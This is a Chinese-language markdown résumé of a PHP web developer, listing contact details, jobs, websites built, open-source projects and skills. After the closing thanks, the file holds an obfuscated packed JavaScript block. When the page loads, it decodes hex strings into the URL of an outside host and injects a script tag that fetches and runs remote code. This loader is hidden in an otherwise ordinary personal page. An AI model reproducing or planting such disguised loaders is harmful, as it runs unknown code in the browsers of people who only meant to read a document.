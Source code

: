# 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：3年+
 - 最高学历：高中
 - 期望职位：PHP开发工程师
 - 期望城市：上海

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[Alone@an56.net](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one

---

# 工作经历

## 上海幺令巴网络科技有限公司 （2015年5月 ~ 2015年7月）

### [快讯通手机APP数据接口](http://naotu.baidu.com/viewshare.html?shareId=awbv4fveqha8)
- 负责APP数据接口的开发；
- 负责APP内嵌网页的开发以及控制器方法的重写；

### [站点及SEO管理系统](#)
- 该系统的主要目的是为了管理公司的客户网站以及域名，此外还包括服务器、注册商、SEO优化的管理。
- SEO优化又包括SEO任务、关键词、外链文章、资源站等管理，以及对外链专员发布外链记录的管理。
- 图片演示：http://pan.baidu.com/s/1jGy7HbC


## 自由职业 （2014年8月 ~ 2015年3月）

### [WinIIS广告推广平台](http://www.an56.net/adsense/)
 - 演示账户：adsense 密码：123456
 - 类似于“淘宝客”，按成交计费的推广模式(CPS)

### [微信公众号管理平台](http://app.ah.cn/weixin/admin/?m=Msg)
 - 使用ThinkPHP框架开发
 - 根据关键词、正则表达式判断请求，回复相应内容
 - 自定义拓展接口，实现天气、快递等查询
 - [测试自动回复](http://app.ah.cn/weixin/test/)


## 合肥一浪网络科技有限公司 （2013年6月 ~ 2014年7月）

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [天长市市场监督管理局网站](http://www.tcscjg.gov.cn/)
- [天长市万寿镇政府网站](http://www.wanshou.gov.cn/?/wza)，[无障碍功能](http://www.wanshou.gov.cn/view.asp?/wza/=/&id=1111)
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建设，ASP程序开发，模板制作。

---

# 开源项目和作品

## 开源项目

 - [parse_urls](http://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版
 - [array2](http://github.com/al-one/array2) : Asp键值对数组，Json编码解析
 - [ANCMS](http://www.ancms.cn/) : 安安网站内容管理系统，Asp+Access

## 业余作品

 - [自助友情链接交换平台](http://link.an56.org/) : 后端使用ThinkPHP 3.2.3开发；前端使用Bootstrap框架。
 - [aGoogle](http://app.an56.org/aGoogle/) : 谷歌搜索，RequireJS + Angular + Bootstrap
 - [CKEditor表情插件](http://app.an56.org/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功能
 - [卫星电视接收参数](http://app.an56.org/stv/)
 - [其他作品...](http://dwz.cn/alone-case)

---

# 技能清单

以下均为我熟练使用的技能

- Web开发：PHP / Asp
- Web框架：ThinkPHP
- 前端框架：jQuery / Bootstrap / Angular
- 开发工具：Sublime Text / Git / Firebug
- 数据库相关：MySQL / SqLite / MSSQL
- 云和开放平台：SAE / OpenShift / QQ互联 / 微信公众平台

---

# 自我描述
- 熟练使用PHP语言开发网站应用，熟悉ThinkPHP框架；
- 精通ASP程序开发，开发过CMS、CRM等系统；
- 能快速开发搭建中小型企业网站，代码编写规范；
- 精通DIV+CSS架构网页，熟练使用jQuery、Ajax、Bootstrap；
- 熟悉SQL语句优化，正则表达式，Git，Angular；
- 了解各大开放平台API接口，开发过微信公众平台接口。

有责任心，有上进心，能吃苦耐劳，办事认真；
待人和善，诚恳，能友好的与同事相处；
自学能力强，挖掘自身的潜力，善于思考，有较强的团队协作精神。

---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。

![](http://img.users.51.la/16854071.asp)
<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>
